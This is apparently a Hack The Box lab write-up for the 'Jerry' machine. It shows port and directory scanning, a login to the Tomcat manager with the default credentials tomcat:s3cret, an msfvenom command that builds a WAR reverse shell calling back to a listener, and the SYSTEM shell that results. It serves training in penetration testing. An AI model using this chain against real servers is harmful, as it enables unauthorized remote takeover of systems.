



---
tags:
  - tomcat
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Jerry
- Reference : https://0xdf.gitlab.io/2018/11/17/htb-jerry.html
- Solved : 2025.3.5. (Wed) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Port**: HTTP (8080)
    - **Service Identified**:
        - Apache Tomcat 7.0.88 (Apache-Coyote/1.1)
        - Title: Apache Tomcat/7.0.88
        
2. **Web Enumeration**
    - **Directory Bruteforce** using `gobuster`:
        - `/docs/`, `/examples/`, `/manager/` discovered.
    - Accessing `/manager/html` revealed a login page.
    
3. **Web Exploitation**
    - **Default Credentials**:
        - Successfully logged in using `tomcat:s3cret` (from known default credentials list).
	- **Reverse Shell Deployment**:
		- Created WAR payload using `msfvenom`
		- Uploaded and deployed the WAR file via Tomcat Manager interface.
		- Triggered the shell and caught a reverse connection.

4. **Privilege Escalation**
	- **Result**: Obtained `NT AUTHORITY\SYSTEM` shell directly upon reverse shell connection.

### Key Techniques:

- **Service Fingerprinting**: Identified Apache Tomcat version via Nmap.
- **Directory Enumeration**: Discovered sensitive admin panel `/manager/html`.
- **Default Credential Abuse**: Used public credential `tomcat:s3cret`.
- **WAR File Exploitation**: Deployed a WAR reverse shell to gain remote access.
- **Direct Privilege Gain**: Immediate `SYSTEM` level access post-exploitation.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.95
Performing quick port scan on 10.10.10.95...
Found open ports: 8080
Performing detailed scan on 10.10.10.95...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-05 01:45 MST
Nmap scan report for 10.10.10.95
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds
```

### http(80)



Apache Tomcat 7.0.88 is running.

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Let's access `manager/html`.



It asks login. Let's use default credentials from [here](https://raw.githubusercontent.com/netbiosX/Default-Credentials/refs/heads/master/Apache-Tomcat-Default-Passwords.mdown).
Among the credentials, `tomcat` : `s3cret` is the valid set.



Let's create a `war` file to spawn a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/jerry]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9000 -f war > rshell.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
```

I uploaded it through "WAR file to deploy" and clicked the created one after setting up a listener.

```bash
┌──(kali㉿kali)-[~/htb/jerry]
└─$ nc -nlvp 9000          
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

I got `SYSTEM`'s shell.